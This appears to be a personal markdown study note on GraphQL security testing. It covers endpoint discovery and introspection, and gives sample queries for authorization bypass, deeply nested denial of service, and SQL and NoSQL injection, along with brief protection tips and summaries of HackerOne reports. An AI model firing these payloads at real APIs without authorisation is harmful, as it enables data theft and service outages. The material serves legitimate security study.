

# Rest in peace

https://www.youtube.com/watch?v=NPDp7GHmMa0

## Find endpoints

- /graphql 
- /graphql/console
- /graphql.php
- /graphiql
- /v1/graphql
- /v2/graphql
- /v2/graphql/explorer

## Introspection

- Enabled by default
- Get all queries and mutations
- Test all queries and mutations
- Look at error messages

- use graphql voyager to visually explore the schema

## Attack techniques

- Bypass auth logic

```graphql
{
  user {
    id
    name
    friends {
      id
      name
    }
  }
}
```

This might work

```graphql
{
  friends {
    id
    name
  }
}
```

- Malicious queries

https://www.apollographql.com/blog/securing-your-graphql-api-from-malicious-queries-16130a324a6b/

```typescript
type Thread {
  message(first: Int, after: String): [Message]
}

type Message {
  thread: Thread
}

type Query {
  thread(id: ID!): Thread
}
```

What if we send a request - DoS with deeply nested query

```graphql
query maliciousQuery {
  thread(id: "some-id") {
    messages(first: 99999) {
      thread {
        messages(first: 99999) {
          thread {
            messages(first: 99999) {
              thread {
                # ...reapeat times 10000 ...
              }
            }
          }
        }
      }
    }
  }
}
```

- `isDeprecated` logic may not have been implemented

- Mutations not permitted ... or are they?

- SQL injections

```graphql
{
  Lift(id:"Blackhawk`") {
    status
    trialAccess {
      name
      status
    }
  }
}
```

```graphql
{
  Lift(id:"Blackhawk*") {
    status
    trialAccess {
      name
      status
    }
  }
}
```

- NoSQL injections

http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/

```graphql
{
  users(search: "{\"email\": {\"$gte\": \"\"}}:,
    options: "{\"fields\": {}}") {
      _id
      username
      fullname
      email
    }
}
```



## Protecting graphql

- Disable introspection
- Dont trust user data, always validate and sanitise user input
- Authorization bypass
- DoS
- 


## Examples:

### Shopify - beerify

- Extract data on beer consumption
- 802.20 = approximate price for 3 kegs of favourite beer

https://hackerone.com/reports/419883

### Hackerone - team data

- Auth bypass
- Team object return info on team
- Find private programs

### Hackerone - migration problems

- Improper auth
- `nodes` field introduced into the schema by default - bypass auth logic

### Hackerone - sqli

- Extract info in graphql endpoint through a param
